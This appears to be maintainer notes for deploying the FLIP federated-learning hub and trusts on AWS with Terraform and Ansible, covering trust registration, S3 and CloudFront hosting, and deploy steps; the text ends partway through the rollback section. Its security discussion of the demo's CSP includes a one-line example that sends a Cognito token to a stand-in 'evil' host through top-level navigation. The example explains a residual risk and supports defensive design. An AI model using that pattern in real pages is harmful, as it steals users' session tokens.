


<!--
    Copyright (c) 2026 Guy's and St Thomas' NHS Foundation Trust & King's College London
    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at
        http://www.apache.org/licenses/LICENSE-2.0
    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->

# FLIP AWS Terraform/OpenTofu and Ansible Infrastructure

> **Deploys: Central Hub + optional cloud trust.** One Terraform root, one state file — the cloud trust runs
> inside the hub's VPC and is not separable from it. See [`../README.md`](../README.md) for how a trust node's
> deployment shape relates to the infrastructure it runs on.

Terraform/OpenTofu and Ansible Infrastructure as Code to deploy the FLIP application stack to AWS.

This provider manages the **Central Hub** (always in AWS) and, optionally, one or more **Trust** instances. Trust services can be deployed in two ways:

| Deployment Model | Trust Location | Managed By |
| --- | --- | --- |
| **Cloud** | AWS EC2 (same account as Central Hub) | This provider (`deploy/providers/AWS/`) |
| **Hybrid / On-Premises** | Any Ubuntu host (home lab, hospital server, etc.) | [`trust/deploy/ansible/`](../../../trust/deploy/ansible/README.md) + selected targets in this Makefile |
| **Kubernetes** | Any Kubernetes cluster 1.28+ (EKS, AKS, on-prem) | [`trust/deploy/helm/`](../../../trust/deploy/helm/README.md) Helm chart — deploy guide: [Deploy a trust on Kubernetes](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-flip-node-kubernetes.html) |

In both models, trusts poll the Central Hub for tasks over HTTPS — all communication is **outbound from the trust** to the hub. The hub never makes inbound requests to trusts.

> [!NOTE]
> **This README is the maintainer's notes**: how the stack is built, the Terraform CI internals, the test suites
> and the design rationale. **To deploy or operate a hub, use the operator manual on ReadTheDocs:**
>
> - [Deploy the Central Hub](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html)
>   — prerequisites, IAM permissions, registering trusts, deploys and rollback, email, MFA recovery
> - [Deploy the Central Hub on AWS (LZA)](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html)
>   — what the estate provides, account bring-up, the env file, break-glass
> - [Deploy a trust on-prem](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-flip-node-on-prem.html)
>
> Sections the manual now covers keep their heading here (other files link to them) and point to it. The
> full-stack and hub-only deploys, cloud trust data, SSH over SSM, status and destroy stay documented here.

## Prerequisites

Tools, environment files, AWS profiles, the SSH key and the GHCR login:
[Deploy the Central Hub → Prerequisites](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#prerequisites).

### Required AWS Permissions

The managed policies an operator needs, what each covers, and the scoped roles the deployed hosts and tasks get:
[Deploy the Central Hub → Required IAM permissions](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#required-iam-permissions).

## Deployment Workflow

### Full Stack Deployment

The complete deployment process is automated via the `full-deploy` target:

```bash
cd deploy/providers/AWS
make full-deploy HUB=stag  # For staging
# OR
make full-deploy HUB=prod  # For production
```

This command executes the following steps in order:

1. **`github-login`**: Authenticate with GitHub CLI
2. **`aws-login`**: Authenticate with AWS SSO
3. **`init`**: Initialize Terraform with environment-specific S3 backend
4. **`generate-internal-service-key`**: Check the fl-server → hub `INTERNAL_SERVICE_KEY` and its hash are in sync (re-syncing a stale hash). It cannot mint a first key from this directory — the Makefile refuses to parse at all while `INTERNAL_SERVICE_KEY` is unset in the env file — so mint it beforehand from the repo root: `make generate-internal-service-key ENV_FILE=$(pwd)/.env.<hub>`
5. **`plan`**: Generate and review the initial Terraform execution plan
6. **`apply`**: Apply infrastructure changes
7. **`update-env`**: Refresh the root environment file with Terraform outputs
8. **`ssh-config`**: Update `~/.ssh/config` with SSM-managed EC2 instance IDs
9. **`ansible-init`**: Patch both hosts, install `psql` on the Central Hub bastion, and provision Docker, AWS CLI, CloudWatch, and FL assets on the Trust EC2 (the FL kit is staged as `Trust_1` at this point — no slot has been assigned yet)
10. **`deploy-centralhub`**: Deploy the Central Hub ECS Fargate services (`flip-api`, `fl-api-net-1`, `fl-server-net-1`) at the tip of the env's branch via new task-definition revisions (see [Central Hub deploys and rollback](#central-hub-deploys-and-rollback-immutable-sha-tags)) and sync the UI to S3
11. **`register-trusts`**: Register every locally-present trust kit file (`trust/.env.<CODE>.<hub>`) on the running hub and write its credentials back. Only the two hub-shared values the ECS task env carries (`TRUST_API_KEY_HEADER`, `FL_BACKEND`) come back with it — the rest of the block needs `make sync-trust-kit KIT=<CODE> HUB=<hub>` from the repo root afterwards (see [Registering trusts against the ECS hub](#registering-trusts-against-the-ecs-hub))
12. **`deploy-trust`**: Re-stage the FL participant kit for the slot the hub assigned at registration (`stage-fl-kit`, reading `FL_KIT_SLOT_NUMBER` from the kit file — idempotent when the host really is `Trust_1`), then stop the stack, seed the Trust EC2 with that trust's OMOP + Orthanc mock data (`seed-trust-data`, a ~1 GB HuggingFace fetch at the `trust/.data_version` tag plus the OMOP vocabulary load), and bring Trust services back up via Docker Compose
13. **`status`**: Run comprehensive health checks

To provision only the minimal Central Hub bastion after a targeted Terraform
change, run `make provision-bastion HUB=stag|prod`; this does not touch the
Trust EC2.

### Hub-only Deployment (all trusts on-prem)

Use `full-deploy-hub-only` when no trust should run in the cloud — typically because the
FL workloads need hardware the trust EC2 doesn't have (it's a GPU-less `t3.xlarge`) and
every trust will run on-prem hosts instead:

```bash
cd deploy/providers/AWS
make full-deploy-hub-only HUB=stag   # or HUB=prod
make deploy-ui HUB=stag              # UI ships separately, same as full-deploy
```

This runs the same chain as `full-deploy` minus the cloud-trust steps (`deploy-trust`,
`seed-trust-data`) and sets `DEPLOY_TRUST_EC2=false`, so Terraform provisions **no Trust
EC2 at all** (`ssh-config` skips the `flip-trust` alias and the `trust_ec2` Ansible plays
are no-ops). The cloud-trust targets fail fast with a pointer to the on-prem flow if run
against a hub-only environment.

> **Warning**: on an environment previously deployed with `full-deploy`, the hub-only
> `apply` **destroys the existing Trust EC2** (its data volumes are not preserved).
> Re-run with `DEPLOY_TRUST_EC2=true` (the default) to bring one back.

Each on-prem trust then joins exactly as in the hybrid flow:

1. Scaffold the kit from the repo root (`make new-trust TRUST_CODE=<CODE> TRUST_NAME="..." TRUST_REGION=... HUB=<hub>`),
   then register it from **this** directory: `make register-trusts KIT=<CODE> HUB=<hub>`
   — **see "Registering trusts against the ECS hub" below**. Do not use the root
   `make register-trust`: it execs into a *local* flip-api container (an EC2-hub-era
   assumption, FLIP#936) and cannot reach the ECS task.
2. On the trust host: stage the FL kit (`make provision-local-trust KIT=<CODE> HUB=<hub>` on the
   host, or point `FL_KIT_DIR` in the kit at a locally-provisioned workspace) and start
   the stack: `sudo -E env HUB=<hub> make -C trust up-trust KIT=<CODE>` (sudo required —
   the provisioned login user is deliberately not in the docker group, see the
   [on-prem playbook README](../../../trust/deploy/ansible/README.md)).

Multiple on-prem trusts can share one host — give each kit non-colliding ports and data
directories (see the shipped `trust/.env.*.development.example` kits for a working
two-trust port allocation).

### Registering trusts against the ECS hub

The procedure, the kit-file suffixes, the mandatory `make sync-trust-kit` follow-up and what a failure looks like:
[Deploy the Central Hub → Registering trusts](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#deploy-central-hub-register-trusts).
This section is how it works.

`register_trust` must run **inside the hub's flip-api task** — it mints credentials against the hub DB and claims an
FL kit slot, using the task role's DB and SSM permissions. With the hub on ECS there is no local container to
`docker compose exec` into, so this directory's `make register-trusts` uses a different **transport** from the
root-level dev target of the same name: a one-off ECS Fargate task plus an ephemeral SSM SecureString handoff
(`scripts/register-trusts.sh`). The CLI it runs and the kit writer it feeds are identical to the dev path.

Once per invocation it reads the live `flip-api` service's subnets and security groups, and waits (advisorily) for
the service to be stable: its entrypoint seeds the DB, including the FL kit-slot pool `register_trust` claims from.
A waiter timeout warns and proceeds. Then, per kit, it:

1. Reads `TRUST_NAME` / `TRUST_CODE` / `TRUST_REGION` out of `trust/.env.<CODE>.<hub>` (`HUB=prod` selects `.prod`
   kits, `HUB=stag` `.stag`). The trust's identity comes from the kit, never from env vars.
2. Runs `flip_api.scripts.register_trust` as a one-off Fargate task on the `flip-api` task definition, passing
   `--out-ssm-parameter /flip/trust-kits/ephemeral/<uuid>` so the kit body is PUT as a SecureString and never
   reaches CloudWatch — only the parameter *name* transits stdout. The script then GETs the parameter with
   decryption, deletes it, and deletes the task's log stream.
3. Writes the kit through `scripts/distribute_trust_kits.py` (repo root), the same in-place upsert writer the dev
   path and `sync-trust-kit` use: credentials on first registration only, operator host-local edits preserved, and
   the hub-shared block upserted with whatever the task's environment carried — on ECS only `TRUST_API_KEY_HEADER`
   and `FL_BACKEND` (`AES_KEY_BASE64` is a Secrets Manager value, never in the task env, and the other hub-shared
   keys are not in the task definition at all). That gap is why the manual's `sync-trust-kit` step is mandatory.

An already-registered trust returns a metadata-only kit (the hub keeps only the SHA-256 hash of the API key, so
there is nothing to re-emit); it never re-issues credentials. Delivery to a host is deliberately separate:
`deploy-trust` drives the Trust EC2's Docker daemon over the `flip-trust` SSH context (`up-trust-ec2`), so the kit
values reach the host only as container environment.

#### Troubleshooting

- **The task's exit code is not the signal.** Fargate misreports exit codes for one-off tasks (a container exiting
  7 has been observed as `exitCode` 0), so the script treats an absent or empty kit in SSM as the failure. It
  salvages the `ERROR`/`WARNING` lines from the task's log stream before deleting it, falling back to the log tail
  for an unhandled traceback.
- **Interactive debugging inside the running service** is still possible with ECS Exec, which is off by default
  (`var.ecs_exec_enabled`):

  ```bash
  export AWS_PROFILE=<env> AWS_REGION=eu-west-2
  aws ecs update-service --cluster flip-cluster --service flip-api \
    --enable-execute-command --force-new-deployment
  aws ecs wait services-stable --cluster flip-cluster --services flip-api
  TASK=$(aws ecs list-tasks --cluster flip-cluster --service-name flip-api \
    --query 'taskArns[0]' --output text)
  aws ecs execute-command --cluster flip-cluster --task "$TASK" \
    --container flip-api --interactive --command /bin/bash
  ```

  Prefer `make register-trusts` for the real thing: an interactive session leaves the kit payload in the session
  output rather than in an encrypted SSM parameter.

### flip-ui on S3 + CloudFront

The UI is served from S3 by the networking account's edge CloudFront at the canonical user-facing subdomain (`stag.flip.aicentre.co.uk` / `app.flip.aicentre.co.uk`), which reads the bucket through cross-account OAC and relays `/api/*` to the internal NLB's web listener (see [Deploying onto an LZA estate](#deploying-onto-an-lza-estate)). There is no EC2 UI container to fall back to.

**Subsequent UI deploys**: just `make deploy-ui HUB=stag|prod` — builds the UI from the working tree, regenerates `window.js` and syncs to S3. There is no invalidation, since the distribution is in another account: `index.html` is served `no-cache` and the hashed assets as immutable. No Terraform involved. `deploy-ui` syncs `dist/` to the bucket **root** with `--delete`, so it always excludes the `ark_demo/*` prefix — the real build's `dist/` has no `ark_demo/` output, and without the exclude a routine UI (or `deploy-centralhub`, which calls `deploy-ui` as its last step) deploy would delete the demo SPA on every run. Publishing the demo bundle itself is a separate target — see below.

### Ark+ demo SPA bundle (`/ark_demo/*`)

`make deploy-ark-demo HUB=stag|prod` builds the demo bundle (`npm run build:demo`, which also
regenerates `dist/js/window.js` via `generate-demo-window-js.sh`) and syncs it to the **same**
`FLIP_UI_BUCKET_NAME` bucket, under the `ark_demo/` prefix.
It mirrors `deploy-ui`'s cache-control discipline — immutable, far-future `Cache-Control` for the
hashed `static/` chunks (the demo build's `assetsDir`, see the Vite `assetsDir` note below),
`no-cache` for `index.html` and `js/window.js` — because the edge's `/ark_demo/*` behaviour
uses the `CachingOptimized` policy, which **honours** origin cache-control headers: a hand-upload
without them would serve a stale `index.html` referencing already-deleted hashed chunks after the
next demo redeploy. This is a separate command from `deploy-ui` deliberately — the demo (a
point-in-time snapshot — see "`/ark_demo/*` origin isolation" below) is republished far less often
than the real app, typically only when the register is re-captured.

```bash
cd deploy/providers/AWS
make deploy-ark-demo HUB=stag|prod
```

### Ark+ demo download assets (`/ark_demo/assets/*`)

The public Ark+ demo (flip-ui `npm run build:demo`) offers multi-hundred-MB result and model-file
zips for download. These are served by the **same edge distribution** at `/ark_demo/assets/*`
from a dedicated S3 bucket (prod: `flip-lza-demo-assets`) that is **not public**: CloudFront reads
it via cross-account OAC exactly like the flip-ui bucket, all four public-access blocks are on, and
the bucket policy grants `s3:GetObject` on the `ark_demo/assets/*` prefix to that distribution only. Serving
through CloudFront (instead of the public-prefix S3 URL the demo used pre-rollout) puts the WAF
rate-limit rule in the download path and moves anonymous egress from raw S3 rates to CloudFront's.

Terraform creates the bucket through the usual `flip_s3_bucket` module as
`module.flip_demo_assets_bucket` (`flip-lza-demo-assets` / `flip-lza-stag-demo-assets`) whenever
`DEMO_ASSETS_BUCKET_NAME` is set; leave it unset where there is no demo (FLIP#1199, and see "Ark+ demo
on LZA" below).

Rollout / new-bundle staging:

```bash
# Stage bundles under the prefix the CloudFront behaviour maps to
aws s3 cp s3://flip-lza-demo-assets/ark_demo/<bundle>.zip \
          s3://flip-lza-demo-assets/ark_demo/assets/<bundle>.zip --profile prod  # server-side copy

# DEMO_ASSETS_BUCKET_NAME=flip-lza-demo-assets in .env.prod / the aws-prod
# GitHub environment, then (LZA is CI-applied; the manual form is break-glass):
cd deploy/providers/AWS
make plan HUB=prod     # expect: +module.flip_demo_assets_bucket (bucket, versioning, PAB, policy)
make apply HUB=prod

# Verify: CloudFront serves, raw S3 is sealed
curl -sI https://app.flip.aicentre.co.uk/ark_demo/assets/<bundle>.zip   # 200
curl -sI https://flip-lza-demo-assets.s3.eu-west-2.amazonaws.com/ark_demo/<bundle>.zip  # 403
```

The demo UI's download URLs live in `flip-ui/src/demo/bootstrap.ts` (model-files zips) and
`flip-ui/mocks/demo/data/*flres*.json` / `fl_results.json` (results zips); keep them **relative**
(`/ark_demo/assets/…`), not absolute to `app.flip.aicentre.co.uk` — the demo SPA is always served
same-origin under `/ark_demo/`, so a relative path resolves through CloudFront identically
wherever the bundle is hosted (prod, stag, or a local preview), and it survives a domain change.
An absolute form would silently point a stag-hosted or locally-previewed demo's downloads at prod.

#### `/ark_demo/*` same-origin hosting (and its residual risk)

The demo SPA itself (everything under `/ark_demo/` that isn't a downloadable bundle — the built
`flip-ui` demo bundle, uploaded to the **same** `FLIP_UI_BUCKET_NAME` bucket under an `ark_demo/`
prefix) shares an origin with the real, authenticated app. That means a real signed-in user's
Cognito tokens in `localStorage` are reachable by any JS running under `app.flip.aicentre.co.uk` —
including a hypothetical script-injection bug in the demo bundle. Rather than move the demo to a
separate subdomain, it is served behind a dedicated, **enforcing** (not report-only)
response-headers policy attached only to the edge distribution's `/ark_demo/*` behaviour.

> **This CSP is defence in depth, not an origin boundary.** An earlier version of this section
> claimed `connect-src 'none'` meant a leaked token had "nowhere on the network to go". That is not
> correct and was fixed in review (FLIP#794): **CSP has no directive governing top-level
> navigation** — `navigate-to` was dropped from CSP3 and ships in no browser, and `form-action`
> covers form submission only — so `location.href = "https://evil/?t=" + token` is unaffected by
> this policy. Same-origin hosting also grants the demo full read access to the real app's
> `localStorage` and cookies regardless of any CSP; `connect-src` constrains where a page may
> *connect*, not what it may *read*.
>
> **The residual risk is real and accepted.** What keeps it closed today is that the demo has no
> injection sink (no `v-html`/`innerHTML` outside a test file) and serves a static register compiled
> into the bundle rather than attacker-supplied input — not the CSP. **A separate origin (e.g.
> `demo.flip.aicentre.co.uk`) is the only control that genuinely separates the two token stores.**
> Treat moving to one as the fix if the demo ever grows a dynamic content path.

What the policy *does* buy is worth keeping: it blocks the entire fetch/XHR/WebSocket exfiltration
class and every third-party resource load, and it enforces the "zero egress" property the demo
design rests on. The demo's Mirage mock server never touches the real browser network stack (it
replaces `XMLHttpRequest`/`fetch` outright), so this costs no demo functionality — confirmed by the
original PR's Chrome net-log audit and pinned by the `zero egress` cases in
`flip-ui/mocks/__tests__/demo-server.spec.ts`.

Note the demo enforces `style-src 'self'` while the real app still runs that policy report-only, and
CodeMirror injects an inline `<style>` at runtime on the cohort-query page — worth an eyeball on
that page before a public launch.

Three ordered behaviours now exist for the demo, evaluated in this precedence order (CloudFront
uses the first `path_pattern` match, so order matters):
1. `/api/*` → the relay to the internal NLB (existing, real-app API)
2. `/ark_demo/assets/*` → the demo-assets bucket (`flip-lza-demo-assets`) (download bundles, no CSP —
   direct file downloads, not HTML)
3. `/ark_demo/*` → `flip-ui` bucket, same origin as the real app but with the strict demo CSP above

The edge's `spa_rewrite` CloudFront Function (attached to both the default behaviour and
`/ark_demo/*`) is prefix-aware: a deep link under `/ark_demo/` falls back to `/ark_demo/index.html`,
never the real app's `/index.html` — the earlier version would have silently served the real
(Cognito-gated) app for a demo URL.

If the demo policy ever gets detached from the `/ark_demo/*` behaviour (drift, a future refactor),
that hardening vanishes with **no functional symptom**, since the demo works identically without it.
`make deploy-ark-demo` refuses to publish when `DEMO_ASSETS_BUCKET_NAME` is unset, but it cannot see
the edge distribution, which is in another account — so verify after a (re)deploy, alongside the
200/403 pair above:

```bash
curl -sI https://app.flip.aicentre.co.uk/ark_demo/ | grep -i content-security-policy   # expect: connect-src 'none' present
```

#### Ark+ demo on LZA (FLIP#1199)

The demo moved to LZA prod with the rest of the hub: `aws-prod` was repointed at LZA prod on
2026-10-06 and the legacy prod account was closed the same day. What this repository can do there, it
does; what it cannot, it names.

**In this repository's scope — the bucket.** `module.flip_demo_assets_bucket` (services.tf) creates
`flip-lza-demo-assets` (stag: `flip-lza-stag-demo-assets`) when `DEMO_ASSETS_BUCKET_NAME` is set:
versioned, server-access-logged to `ACCESS_LOGS_BUCKET_NAME`, all four
public-access blocks on, `prevent_destroy`, and a bucket policy carrying DenyHTTP plus a
`s3:GetObject` grant on the `ark_demo/assets/*` prefix to `TF_VAR_lza_web_edge_distribution_arn`. It
is **SSE-S3 (AES256), not the app CMK** — the reader is a CloudFront service principal in another
account, which cannot decrypt with this account's CMK (and never with the AWS-managed `aws/s3` key).
`aws_s3_bucket.flip_ui`, the other bucket the edge reads, is AES256 for the same reason. The objects
are public demo downloads; there is nothing confidential for a CMK to protect.

Set in `.env.prod` (and the `aws-prod` GitHub environment, which is what CI composes from):

```bash
DEMO_ASSETS_BUCKET_NAME=flip-lza-demo-assets
```

Then stage bundles under the prefix the behaviour maps to:

```bash
aws s3 cp <bundle>.zip s3://flip-lza-demo-assets/ark_demo/assets/<bundle>.zip --profile prod
```

**NOT in this repository — the serving edge, which is a networking-account change.** There is no workload
CloudFront distribution (the `GRCLOUDFRONTVPCORIGIN` SCP; see "Deploying onto an LZA estate"), and the
public edge is the networking account's distribution from
[aicentre-lza-iac](https://github.com/londonaicentre/aicentre-lza-iac). Three of the demo's four
CloudFront-side pieces therefore have to be declared *there*:

1. an **origin** for `flip-lza-demo-assets` with its own OAC (signing `always`, sigv4);
2. an ordered behaviour `/ark_demo/assets/*` → that origin, `CachingOptimized`, listed **before**
   `/ark_demo/*` (CloudFront takes the first matching `path_pattern`, so the broader SPA pattern
   would otherwise swallow every download);
3. an ordered behaviour `/ark_demo/*` → the flip-ui origin with the strict demo response-headers
   policy (`connect-src 'none'`, `style-src 'self'`) and the prefix-aware `spa_rewrite` function, so
   a deep link falls back to `/ark_demo/index.html` rather than the real app's `/index.html`.

Until those land, `make deploy-ark-demo HUB=prod` publishes the SPA to the `ark_demo/` prefix of the
UI bucket but the demo is served by the **default** behaviour — report-only CSP, and every
`/ark_demo/assets/*` download 404s. Nothing in this repository can see that, so check before announcing
the demo:

```bash
curl -sI https://<edge>/ark_demo/assets/<bundle>.zip                       # 200
curl -sI https://flip-lza-demo-assets.s3.eu-west-2.amazonaws.com/ark_demo/assets/<bundle>.zip  # 403
curl -sI https://<edge>/ark_demo/ | grep -i content-security-policy        # connect-src 'none'
```

**Vite `assetsDir` collision (already fixed, worth knowing about):** Vite's default `assetsDir`
(`"assets"`) would put the demo bundle's own JS/CSS/font chunks at `/ark_demo/assets/*.js`, which
collides with behaviour 2 above — that behaviour would intercept the bundle's own asset requests
and serve them (wrongly, 403) from the downloads bucket instead of the `flip-ui` bucket, breaking
the app before Vue mounts. `flip-ui/vite.config.mts` sets `assetsDir: "static"` for `--mode demo`
specifically to avoid this; the real build is unaffected (still `dist/assets`). If the demo build
config ever changes, re-check that its own output prefix doesn't re-collide with `ark_demo/assets/`.

### FLIP application S3 buckets

The Central Hub uses four S3 buckets, each with a distinct purpose, access pattern, and CORS surface. The three **FLIP application buckets** were split out of a single legacy `flip{env}` bucket so each tenant can carry the minimum CORS surface its consumer needs (a CORS change for one tenant no longer drags every other tenant along, and a browser-direct bucket can no longer accidentally expose objects belonging to a server-only flow).

| Bucket (per env) | Env-var (`.env.{stag,prod}`) | Consumer | Browser CORS | Holds |
|---|---|---|---|---|
| `flip{env}-model-files-uploads` | `FLIP_MODEL_FILES_UPLOADS_BUCKET_NAME` | researcher browser (presigned **POST** upload, presigned **GET** download), flip-api reads | `POST`, `GET` from `https://<flip_alb_subdomain>` | researcher-uploaded model artefacts in two prefixes: `uploaded/` (staging — where the browser POSTs) and `scanned/` (promoted by flip-api's malware scan, FLIP#52). Every consumer reads `scanned/` only, so an unscanned or rejected file can never be bundled to a trust. Noncurrent versions expire after 30 days (the scan deletes rejected uploads and moves promoted ones, so this bucket accumulates tombstones). |
| `flip{env}-fl-results` | `FLIP_FL_RESULTS_BUCKET_NAME` | fl-server writes, researcher browser (presigned **GET**) | `GET` from `https://<flip_alb_subdomain>` | FL training output / aggregated weights — the whole bucket is dedicated to this tenant so no prefix is needed |
| `flip{env}-app-bundles` | `FLIP_APP_BUNDLES_BUCKET_NAME` | flip-api (boto3 only) | **none** (server-only — no `aws_s3_bucket_cors_configuration` resource is emitted at all) | `app_destinations/<model_id>/` (per-bundle FL apps: base templates + user model files, assembled by flip-api). The base FL application templates themselves are baked into the flip-api image (FLIP#724), not stored here. |
| `flip{env}-aicentre` | `AICENTRE_BUCKET_NAME` | Trust EC2 (`aws s3 cp` during Ansible), AI Centre operators | `PUT`, `GET` | FL participant kits |

All four share standard configs: public access blocked, SSE-KMS server-side encryption with bucket keys enabled, versioning enabled. The three FLIP application buckets are rendered by the shared **`modules/flip_s3_bucket`** module, which `main.tf` consumes for every deployed environment, so a CORS or bucket-policy change plans identically across them. (Development uses no AWS buckets: the dev stack's object store is a local RustFS container, FLIP#1291.) The same module also renders the Ark+ demo-assets bucket (`module.flip_demo_assets_bucket`, `services.tf`), the one exception to the SSE-KMS rule above: it uses SSE-S3 (`sse_algorithm = "AES256"`) and grants the edge distribution's CloudFront OAC read access to `ark_demo/assets/*` through `extra_bucket_policy_statements_json`.

**Base FL application templates ship in the image, not S3.** As of FLIP#724 the base FL application templates (the repo's `fl-apps/` tree) are baked into the `flip-api` image and read from a local directory (`FL_APP_BASE_DIR`, default `/app/fl-apps`); flip-api bundles applications by uploading a selection from those local templates, plus the user's model files, into `flip{env}-app-bundles/app_destinations/<model_id>/`. The selection is an allowlist (FLIP#1008): the backend's app folder(s) plus its single root file ship, and everything else in the template directory is excluded and listed at debug level — worth knowing before pointing `FL_APP_BASE_DIR` at an operator-provided tree, since an unrecognised file is dropped rather than shipped. There is no longer any CI that syncs templates to S3, so the `flip{env}-app-bundles` bucket is written **only** by flip-api at bundle time. Template hotfixes therefore ship by rebuilding and redeploying the `flip-api` image.

### Manual Step-by-Step Deployment

For debugging or selective deployment, run individual steps:

```bash
# 0. Choose the environment for this shell (required: the AWS provider Makefile has no default).
export HUB=stag    # or: export HUB=prod

# 1. Login to GitHub and AWS
make github-login
make aws-login

# 2. Nothing to run: the Terraform state bucket, with the CI roles and the
#    permissions boundary, comes from modules/terraform_ci_bootstrap — applied by
#    the platform repositories in AI Centre's accounts, or by ci/ in your own
#    (see ci/README.md). It must exist before `make init`.

# 3. Initialize Terraform (uses the configured S3 backend)
make init

# 4. Check the fl-server -> hub INTERNAL_SERVICE_KEY + hash are in sync (the key must already be
#    set in the env file or the Makefile will not parse; mint it first from the repo root with
#    `make generate-internal-service-key ENV_FILE=$(pwd)/.env.<hub>`)
make generate-internal-service-key

# 5. Plan changes
make plan

# 6. Apply infrastructure
make apply

# 7. Refresh the root env file with Terraform outputs (DB_HOST, the two Cognito IDs)
make update-env

# 8. Configure SSH access
make ssh-config

# 9. Setup EC2 instances with Ansible
make ansible-init

# 10. Deploy the Central Hub
make deploy-centralhub

# 11. Register every locally-present trust kit file on the hub and write its credentials back
make register-trusts
#     ...then fill the rest of each kit's hub-shared block from the local env file (repo root):
#     make sync-trust-kit KIT=<CODE> HUB=<hub>

# 12. Deploy trust services (runs stage-fl-kit + seed-trust-data; needs KIT=<CODE>)
make deploy-trust KIT=<CODE>

# 13. Check status
make status
```

Step 12 is not a single action. `deploy-trust` runs `stage-fl-kit` as a prerequisite and
`seed-trust-data` inside its recipe, between stopping and restarting the stack — the seed
starts a throwaway postmaster on the trust's data directory, so the trust's own omop-db
must not hold it open (the play refuses if it does). Seeding loads that trust's OMOP +
Orthanc mock data onto the Trust EC2: a ~1 GB HuggingFace fetch of the archives pinned by
`trust/.data_version`, plus the OMOP vocabulary load. Both need `KIT=<CODE>` and read
`FL_KIT_SLOT_NUMBER` and the `OMOP_POSTGRES_*` values out of `trust/.env.<CODE>.<hub>`,
which is why they must run **after** `register-trusts`.

**The seed runs on every `deploy-trust`, by design** — unlike the dev path, where
`ensure-seeded` is marker-gated and a second `up-trust` is a no-op, the play writes no
marker and has no skip condition. A routine re-deploy therefore re-fetches and re-posts
the mock data, costing minutes rather than correctness: the OMOP half replaces only the
listed projects' rows (`--clean projects`) and Orthanc dedupes on SOPInstanceUID. Run
`make seed-trust-data KIT=<CODE>` on its own to re-seed after a `trust/.data_version`
bump without a full re-deploy, and add `FORCE_DICOM_VOCAB=1` to reload a DICOM vocabulary
left half-loaded by an interrupted run (it reports itself present, so the load is
otherwise skipped for good).

### Central Hub deploys and rollback (immutable SHA tags)

The operator procedure — the FL quiesce, `deploy-centralhub`, `TAG=` overrides, a missing image, rollback and the
partial-deploy caveat — is in
[Deploy the Central Hub → Deploying and rolling back the hub](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#deploy-central-hub-deploys).
This section is the mechanism (FLIP#751, FLIP#770).

`make deploy-centralhub` deploys the Central Hub ECS services (`flip-api`, `fl-api-net-1`, `fl-server-net-1`) by
**immutable image tag + task-definition revision**, then publishes the UI (same as `make deploy-ui`):

1. **FL quiesce reminder.** Printed on every deploy, not an enforced gate; with `HUB=prod` it is followed by an
   interactive confirmation, while staging stays non-interactive for scripted deploys.
